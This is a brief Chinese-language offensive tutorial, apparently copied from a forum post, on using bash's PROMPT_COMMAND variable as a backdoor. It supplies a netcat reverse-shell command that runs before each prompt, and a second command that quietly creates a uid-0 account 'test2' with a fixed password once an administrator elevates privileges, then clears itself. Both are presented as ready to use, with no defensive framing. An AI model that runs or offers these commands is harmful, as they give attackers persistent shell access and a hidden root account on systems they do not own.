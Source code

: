 # PROMPT_COMMAND

> 原文：[https://www.zhihuifly.com/t/topic/3507](https://www.zhihuifly.com/t/topic/3507)

## PROMPT_COMMAND

bash提供了一个环境变量PROMPT_COMMAND,这个变量会在你执行命令前执行一遍。这样就可以利用他执行的命令来留后门。

```
export PROMPT_COMMAND="nc -e /bin/bash 127.0.0.1 6666 &" 
```

![image](img/84ed0636ef0aaf99e762595c748ec6ad.png)

**提权**

如果当前用户是低权账号，管理员又经常使用su等、但是自己不知道密码。就可以来使用这种方法。利用sudo的权限提升来新建一个uid为0的用户

```
export PROMPT_COMMAND="/usr/sbin/useradd -o -u 0 test2 &>/dev/null && echo test2:123456 | /usr/sbin/chpasswd &>/dev/null && unset PROMPT_COMMAND" 
```

![image](img/44bc29f4d6c28d0fbdf02677892c30ed.png)

![image](img/68f39b93e26aeadf3d09d3c95ab49f7d.png)